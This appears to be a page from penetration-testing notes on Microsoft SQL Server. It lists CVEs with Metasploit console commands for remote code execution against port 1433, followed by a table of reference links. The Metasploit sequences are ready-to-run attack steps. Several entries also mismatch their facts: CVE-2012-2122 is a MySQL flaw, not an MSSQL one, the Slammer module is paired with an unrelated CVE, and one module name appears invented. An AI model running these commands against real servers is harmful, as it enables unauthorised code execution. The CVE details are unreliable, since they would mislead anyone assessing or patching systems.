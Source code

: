 #### CVE-2018-8273

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/mssql/ms_sql_moexec
    set RHOSTS <target_ip>
    set RPORT 1433
    set USERNAME sa
    set PASSWORD <password>
    run
    ```
* **Description:** Exploit a known vulnerability in MSSQL to execute arbitrary code on the server.

#### CVE-2015-1763

* **Tool:** \[\[Metasploit]]
* **Description:** Remote Code Execution - Exploits a vulnerability in the MSSQL database engine to execute arbitrary code.

#### CVE-2012-2122

* **Tool:** \[\[Metasploit]]
* **Description:** MSSQL Authentication Bypass - Allows attackers to bypass authentication via incorrect password handling.

#### CVE-2000-0402

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/mssql/ms02_039_slammer
    set RHOSTS <target_ip>
    set RPORT 1433
    run
    ```
* **Description:** Buffer Overflow in SQL Server 7.0 allows remote attackers to execute arbitrary code.

## Resources

| **Website**                               | **URL**                                                                                      |
| ----------------------------------------- | -------------------------------------------------------------------------------------------- |
| Microsoft SQL Server Documentation        | https://docs.microsoft.com/en-us/sql/sql-server/sql-server-technical-documentation           |
| Nmap SQL Server Script                    | https://nmap.org/nsedoc/scripts/ms-sql-info.html                                             |
| SQL Server Management Studio (SSMS) Guide | https://docs.microsoft.com/en-us/sql/ssms/sql-server-management-studio-ssms                  |
| Metasploit MSSQL Modules                  | https://www.rapid7.com/db/modules/?q=mssql                                                   |
| SQLmap Documentation                      | https://sqlmap.org                                                                           |
| Hydra Documentation                       | https://tools.kali.org/password-attacks/hydra                                                |
| SQL Injection Prevention Cheat Sheet      | https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html |
| TCP/IP Illustrated Volume 2               | https://www.amazon.com/TCP-Illustrated-Vol-Implementation/dp/020163354X                      |
| Wireshark User Guide                      | https://www.wireshark.org/docs/wsug\_html\_chunked/                                          |
| Linux man-pages                           | https://man7.org/linux/man-pages/                                                            |

